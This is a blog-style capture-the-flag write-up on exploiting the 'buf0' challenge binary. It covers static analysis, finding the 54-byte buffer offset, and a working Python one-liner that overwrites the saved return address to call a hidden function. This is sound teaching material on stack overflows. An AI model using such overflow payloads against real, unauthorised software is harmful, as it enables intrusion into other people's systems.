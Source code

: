 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a buffer overflow challenge I found online. Although some people might find this to be a pretty easy exploit target, I thought of posting a writeup since it will still be someone's starting point into the jouney of exploitation.
tags: ctf

## Introduction

The binary can be obtained from here: [buf0](/static/files/posts_buf0_challenge/buf0.bin). Let's see what `file` command has to tell us about this challenge file:

```
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

## Program Analysis and Testing

So, this is an x86 ELF binary with symbols included. Let's run `strings` as well over this file:

```
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is commonly exploited against buffer overflow vulnerabilities. There is a `W00T!` string as well which indicates that we need to exploit the binary and get this string printed. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf0_challenge/ida-start.png.webp)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf0_challenge/ida-returntome.png.webp)

Like I mentioned earlier, this is where the `W00T!` string is printed and as per the assumption, we need to leverage the overflow in a way that this function is called. Let's now run the binary and see how it behaves:

```
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such vulnerable to a classic stack-based buffer overflow. We do some trial-and-error to figure out the size of the buffer and it turns out to be 54B after which any extra byte would corrupt the stack metadata resulting in a `Segmentation fault (core dumped)` error. So, these 54B comprise of the following stack variables:

```
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and this is what we need to overwrite to achieve successful exploitation. For this challenge, the author wants us to overwrite EIP with the address of the `returnToMe` function but there are others ways of exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the challenge by satisfying author's criteria. To know how to exploit such challenges using above steps please read my earlier post [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe` function is at location 0x08048404. Let's exploit the binary with a random payload of 54B concatenated with this new return address:

```
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

## Conclusion

Awesome! We get the required string printed, thus completing this challenge. Stay tuned for a post on a similar challenge.
